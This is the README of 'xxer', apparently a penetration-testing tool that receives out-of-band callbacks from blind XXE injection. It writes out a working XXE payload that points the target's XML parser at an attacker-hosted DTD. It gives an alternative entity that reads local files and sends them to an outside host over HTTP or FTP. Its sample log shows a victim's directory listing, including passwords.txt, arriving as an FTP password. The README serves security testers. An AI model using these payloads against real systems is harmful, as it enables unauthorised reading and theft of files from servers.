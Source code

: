 # xxer
A blind XXE injection callback handler. Uses HTTP and FTP to extract information. Originally written in Ruby by [ONsec-Lab](https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-server.rb). Rewritten here because I don't like Ruby.

Basically, this doesn't actually find XXE injection for you, it helps you deal with getting useful information back once you've found a vulnerable input. For actually finding vulnerable injection points, I recommend using a small HTTP payload and some sort of DNS callback service like [Burp Collaborator](https://portswigger.net/burp/help/collaborator.html). If Collaborator reports a DNS lookup, followed by an HTTP request, then you're good to go.

## Target Audience
If you can explain what XXE injection is and how to find it, this is for you. If not, check out [vulnd_xxe](https://github.com/TheTwitchy/vulnd_xxe).

## Examples

### Options
```
root@kali:~$ xxer.py -h
usage: xxer [-h] [-v] [-q] [-p HTTP] [-P FTP] -H HOSTNAME

XXE Injection Handler

optional arguments:
  -h, --help            show this help message and exit
  -v, --version         show program's version number and exit
  -q, --quiet           surpress extra output
  -p HTTP, --http HTTP  HTTP server port
  -P FTP, --ftp FTP     FTP server port
  -H HOSTNAME, --hostname HOSTNAME
                        Hostname of this server

Originally from https://github.com/ONsec-Lab/scripts/blob/master/xxe-ftp-
server.rb, rewritten in Python by TheTwitchy
```

### Basic Usage
```
root@kali:~$ xxer.py -H kali.host.com
                 
 _ _ _ _ ___ ___ 
|_'_|_'_| -_|  _|
|_,_|_,_|___|_|  
                 
version 1.0

info: Starting xxer_httpd on port 8080
info: Starting xxer_ftpd on port 2121
info: Servers started. Use the following payload (with URL-encoding):

<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE xmlrootname [<!ENTITY % aaa SYSTEM "http://kali.host.com:8080/ext.dtd">%aaa;%ccc;%ddd;]>


127.0.0.1 - - [23/Apr/2017 20:59:04] "GET /ext.dtd HTTP/1.1" 200 -
info: FTP: recvd 'USER fakeuser'
info: FTP: recvd 'PASS aaaaaaaaaadescriptivefoldername
IRS_LETTERS_2014_ANGRY
passwords.txt
pictures_of_ex_hi_def
pictures_of_ex_ultra_hi_def
szechuan_sauce_recipe.pgp
TAXES2012
Taxes2013
TAXES2015
Temporary Internet Files
'
info: FTP: recvd 'TYPE I'
info: FTP: recvd 'EPSV ALL'
info: FTP: recvd 'EPSV'
info: FTP: recvd 'RETR b'
```

## "Features"
  * Only has one exfiltration point (currently, the FTP password). Obviously this can be changed up as needed, but may require some basic code changes (specifically in the FTP handlers).
  * Install via ``pip``. Needs at least a requirements.txt or a setup.py. For now just clone and run.
  * Currently serves up everything in the folder in which it was run over HTTP. Probably not a huge security risk, but something you should be aware of, espeially on a public server.
  * Integrated server file/directory browsing as a future upgrade?

## Troubleshooting
  * I don't get a callback over HTTP to retrieve ``ext.dtd``.
    * This could mean a number of things, mostly related to not being vulnerable to XXE:
      * External entities may be disallowed. This can be done by rejecting DOCTYPE decclarations in documents, which I believe prevents XXE injection.
      * It may also allow entities, but disallow entities from remote sources. I've seen this on some Python XML libraries.
      * Outbound traffic could be blocked at a firewall, or requests mat only go to whitelisted hosts.
    * There could also be a type in the payload or a bug. Check the generated ``ext.dtd`` file to make sure everything looks correct. 
  * The initial HTTP callback for ext.dtd works, but after that I see nothing.
    * This could mean that FTP as a protocol is disabled server-side. Try changing the FTP callback in ``ext.dtd`` to an HTTP one, like ``<!ENTITY % bbb SYSTEM "file:///tmp/"><!ENTITY % ccc "<!ENTITY &#37; ddd SYSTEM 'http://HOSTNAME:2121/b'>">``. If you get a callback to the /b document, this is probably the case. Try using the gopher protocol as well, but this was removed in Java 1.6.32 (or something close).

